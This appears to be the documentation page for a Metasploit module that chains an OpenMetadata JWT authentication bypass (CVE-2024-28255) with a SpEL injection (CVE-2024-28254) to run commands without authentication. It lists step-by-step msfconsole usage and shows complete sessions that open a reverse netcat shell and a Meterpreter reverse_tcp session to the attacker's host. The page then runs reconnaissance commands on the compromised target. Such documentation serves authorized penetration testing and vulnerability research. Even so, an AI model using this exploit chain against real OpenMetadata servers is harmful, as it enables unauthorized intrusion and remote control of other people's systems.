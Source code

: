 ## Vulnerable Application

OpenMetadata is a unified platform for discovery, observability, and governance powered by a central metadata repository,
in-depth lineage, and seamless team collaboration.
This module chains two vulnerabilities that exist in the OpenMetadata application.
The first vulnerability, [CVE-2024-28255](https://nvd.nist.gov/vuln/detail/CVE-2024-28255), bypasses the API authentication
using JWT tokens. It misuses the `JwtFilter` that checks the path of url endpoint against a list of excluded endpoints
that does not require authentication.
Unfortunately, an attacker may use Path Parameters to make any path contain any arbitrary strings that will match the
excluded endpoint condition and therefore will be processed with no JWT validation allowing an attacker to bypass the
authentication mechanism and reach any arbitrary endpoint.
By chaining this vulnerability with [CVE-2024-28254](https://nvd.nist.gov/vuln/detail/CVE-2024-28254), that allows for
arbitrary SpEL injection at endpoint `/api/v1/events/subscriptions/validation/condition/<expression>`,attackers are able
to run arbitrary commands using Java classes such as `java.lang.Runtime` without any authentication.

OpenMetadata versions `1.2.3` and below are vulnerable.

The following releases were tested.
* OpenMetadata 1.2.3 on Docker

## Installation steps to install the OpenMedata running on Docker
* Please follow these [installation instructions](https://docs.open-metadata.org/v1.3.x/quick-start/local-docker-deployment).
* Please ensure that you download version 1.2.3 or below.
* After successful installation your should be able to access OpenMetadata on port 8585 at `http://your_openmetadata_ip:8585`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/openmetadata_auth_bypass_rce`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ]  `set lhost <attacker-ip>`
- [ ] `set target <0=Unix Command, 1=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse netcat shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options

## Scenarios
```msf
msf exploit(linux/http/openmetadata_auth_bypass_rce) > info

       Name: OpenMetadata authentication bypass and SpEL injection exploit chain
     Module: exploit/linux/http/openmetadata_auth_bypass_rce
   Platform: Unix, Linux
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-03-15

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Alvaro Muñoz alias pwntester (https://github.com/pwntester)

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                        html
  RPORT      8585             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The URI path of the OpenMetadata web application
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  OpenMetadata is a unified platform for discovery, observability, and governance powered
  by a central metadata repository, in-depth lineage, and seamless team collaboration.
  This module chains two vulnerabilities that exist in the OpenMetadata aplication.
  The first vulnerability, CVE-2024-28255, bypasses the API authentication using JWT tokens.
  It misuses the `JwtFilter` that checks the path of the url endpoint against a list of excluded
  endpoints that does not require authentication. Unfortunately, an attacker may use Path Parameters
  to make any path contain any arbitrary strings that will match the excluded endpoint condition
  and therefore will be processed with no JWT validation allowing an attacker to bypass the
  authentication mechanism and reach any arbitrary endpoint.
  By chaining this vulnerability with CVE-2024-28254, that allows for arbitrary SpEL injection
  at endpoint `/api/v1/events/subscriptions/validation/condition/<expression>`, attackers
  are able to run arbitrary commands using Java classes such as `java.lang.Runtime` without any
  authentication.
  OpenMetadata versions `1.2.3` and below are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-28255
  https://nvd.nist.gov/vuln/detail/CVE-2024-28254
A  https://securitylab.github.com/advisories/GHSL-2023-235_GHSL-2023-237_Open_Metadata/
  https://attackerkb.com/topics/f19fXpZn62/cve-2024-28255
  https://ethicalhacking.uk/unmasking-cve-2024-28255-authentication-bypass-in-openmetadata/


View the full module info with the info -d command.
```
### OpenMetadata 1.2.3 Automatic - cmd/unix/reverse_netcat_gaping
```msf
msf exploit(linux/http/openmetadata_auth_bypass_rce) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf exploit(linux/http/openmetadata_auth_bypass_rce) > set rhosts 192.168.201.42
rhosts => 192.168.201.42
msf exploit(linux/http/openmetadata_auth_bypass_rce) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf exploit(linux/http/openmetadata_auth_bypass_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of OpenMetadata.
[+] The target is vulnerable. Version 1.2.3
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[*] Command shell session 17 opened (192.168.201.8:4444 -> 192.168.201.42:55160) at 2024-07-29 15:27:38 +0000

id
uid=1000(openmetadata) gid=1000(openmetadata) groups=1000(openmetadata)
pwd
/opt/openmetadata
uname -a
Linux 1e3c578a0acc 6.6.32-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Jun 13 14:14:43 UTC 2024 x86_64 Linux
```
### OpenMetadata 1.2.3 Automatic - cmd/linux/http/x64/meterpreter/reverse_tcp
```msf
msf exploit(linux/http/openmetadata_auth_bypass_rce) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/openmetadata_auth_bypass_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of OpenMetadata.
[+] The target is vulnerable. Version 1.2.3
[*] Executing Automatic for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 192.168.201.42
[*] Meterpreter session 11 opened (192.168.201.8:4444 -> 192.168.201.42:50599) at 2024-07-31 14:31:37 +0000

meterpreter > getuid
Server username: openmetadata
meterpreter > sysinfo
Computer     : 172.16.240.4
OS           :  (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/openmetadata
meterpreter >
```
## Limitations
No limitations.
